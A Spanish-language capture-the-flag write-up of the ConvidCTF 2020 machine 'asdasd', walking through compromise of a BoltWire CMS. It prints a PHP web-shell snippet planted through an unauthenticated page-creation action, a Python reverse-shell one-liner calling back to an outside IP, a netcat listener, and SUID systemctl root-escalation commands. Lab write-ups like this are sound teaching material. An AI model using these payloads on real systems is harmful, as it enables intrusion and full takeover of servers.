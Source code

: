 ### ConvidCTF 2020 - asdasd - Máquinas Writeup

Buenas a todos, hoy les traigo un writeup de uno los retos de la categoría de la categoría "Máquinas",
el nombre del reto era **asdasd**, este reto tenía dos flags, la primera de estas (user.txt) de 500 puntos
y la segunda (root.txt) 300 puntos.

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/1.png)

Para comenzar este reto me dirigí directamente al puerto 80 de esta máquina utilizando mi navegador, 
allí me esperaba la página incial del CMS **BoltWire**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/2.png)

Lo que primero llamó mi atención fue la palabra **ADMIN** en el menú horizontal de la página, por lo cual decidí
tratar de acceder allí, al hacerlo me encontré con el siguiente mensaje

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/3.png)

Tras ese intento fallido de enumerar de manera rápida las funcionalidades del sitio web, decidí crear una cuenta en éste,
asi que hice click en el submenu **register** e ingrese mis futuras credenciales de acceso.

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/4.png)

Luego de registrarme exitosamente en el sitio, noté que éste me había logueado 
automáticamente por lo que contaba con una sesión activa

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/5.png)

Asi que nuevamente quize ingresar al panel de **ADMIN** y pum!, **Access Blocked**.. raios :c

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/6.png)

Para expandir mi *Attack Surface* fui a la páguina oficial del CMS **BoltWire** y me descargué su versión clásica

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/7.png)

Anteriormente me habia fijado en el parametro **p** el cual cambiaba según la página en que estaba navegando

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/8.png)

Cuando la descarga del CMS finalizó, encontré dentro de una de las carpetas que existia un archivo llamdo register,
tal cual como el nombre del parametro **p** mencionado anteriormente

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/9.png)

Y más arriba existía uno que me llamo la atención **action.create**, quizas podría subir archivos,
quizas podria crear un usuario con permisos de adminstracion, **quizas podria crear archivos**...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/10.png)

Al cambiar el valor del parametro **p** por **action.create**, se me desplezo un formulario
que indicaba que podia crear una página. Dado esto decidí crear una de prueba y de regalo un trozito de código PHP
que me permitiría posiblemente ejecutar comandos de sistema bajo el contexto de la página

```
Hola<?php passthru($_GET["cmd"]); ?>
```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/12.png)

Luego de guardar esta nueva página fui redirigido a esta misma pero para mi mala suerte,
el contenido no fue interpretado por el motor de PHP

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/13.png)

Por la ct.... no se ejecutó el pinche código asi que me puse a enumerar los directorios con 
[ffuf](https://github.com/ffuf/ffuf/) y encontré **pages**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/14.png)

Me fui de cabeza a ese directorio y encontré la página que recién había creado, además de otras que me llamaron la atención.. pero no tanto

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/15.png)

Nuevamente fui a mi página recien creada y puuum!, nada, otra vez no fue interpretado mi código, 
peroooo .... y si le agrego la extension **.php**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/16.png)

Eso!.. me fui a crear otra página, pero esta vez el nombre de la página sería **test.php**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/17.png)

Otra vez luego de guardarla, nada, el código no era interpretado

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/18.png)

perooooooooooooooo acá en la carpeta **pages**, estaba mi hermosa página...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/19.png)

Tras hacerle click, nada no se renderizaba nada, asi que probablemente mi código PHP se estaba interpretando..

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/20.png)

le agregué el parámetro **0**, de valor le di un simple comando para listar directorios en Linux

```ls -la```

Y siiiiiiiiiiiiii, ajajajajajjaj... se ejecutó el pinche comando...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/21.png)

En mi terminal levante un listener con netcat

```nc -lvnp 3000```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/23.png)

Me fui a mirar si había alguna versión de python instalado en la máquina

```which python3```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/24.png)

Le di con el siguiente comando para obtener una reverse shell

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Y pude lograr la deseada reverse shell

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/25.png)


![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/26.png)

Antes de ir por la flag de usuario quize enumerar más la maquina para poder tener mas claro,
como podría escalar privilegios y lograr ser root, me fui a la vieja y confiable.. el cheatsheet de g0tm1lk.
Tras varios copy paste llegue a la parte de los SUID

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/27.png)

Tras ejecutar el comando noté que **systemctl**, estaba con el bit de SUID, que tsutsa..

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/28.png)

Ahora en GTFOBins busqué el pinche binario y para suerte mia existia un método de escalación utilizando systemctl + SUID

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/29.png)

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/30.png)

Ya tenia mi vector para escalar privilegios, asi que me fui a sacar la flag del user

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/31.png)

Luego hice paso a paso, modificando un poco lo que decia en GTFOBins, cree un archivo test.service
le puse la estrucura básica de un servicio de windows...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/32.png)

Levante nuevamente un listener en mi máquina...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/33.png)

Hice una copia del systemctl, nose porqué, pero en GTFOBins decia que había que hacerlo... XD
Y cuando quize obtener mi reverse shell.... **Failed to link unit: Interactive authentication required**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/34.png)

:c Que w3a... maldito www-data.. Pero filo, había un archivo que no había mirado en el home del usuario ubuntu, **secret.txt**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/35.png)

Cuando lo miré dije, *Meh, un llave pública*...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/36.png)

Fue en ese momento que aparecieron los cauros @h4tt0r1 y @fjv al rescate, recordaron un repósitorio de llaves privadas..
Yaaaa yyyyyyy... napo habian hartas..

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/37.png)

Pero cuando grepearon la llave pública que estaba en **secret.txt**.. ahi estaba la pinche llave privada...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/38.png)

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/39.png)

```ssh ubuntu@10.4.4.66 -i llavectm```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/40.png)

Luego de entrar como el usuario ubuntu, ya tenia enumerado como escalar, 
asi que nuevamente intente los pasos para crear el servicio..

```/bin/systemctl link /tmp/test.service
/bin/systemctl enable /tmp/test.service
/bin/systemctl start test.service
```
![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/41.png)

Me fui corriendo a revisar mi listener y siiiiiiiiiiiii HAAHHAHAHAHAA una shell con el usuario ROOOOOOT

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/42.png)

Y eso.. fui a /root, saque la flag y 300 puntitos mas pa l@s cabr@s..

![test](https://raw.githubusercontent.com/pelaohxc/writeups/master/asdasd/46.png)


Ese fui mi humilde writeup, espero puedan rescatar algo c:

Gracias los cabros que apañaron en el reto [@h4tt0r1](https://www.cntr0llz.com/users/h4tt0r1) y [@fjv](https://www.cntr0llz.com/users/fjv)

Y un saludo a mi awelita que no la veo hace rato por el pinche virus.. :c

[@xpl0ited1](https://www.cntr0llz.com/users/xpl0ited1)
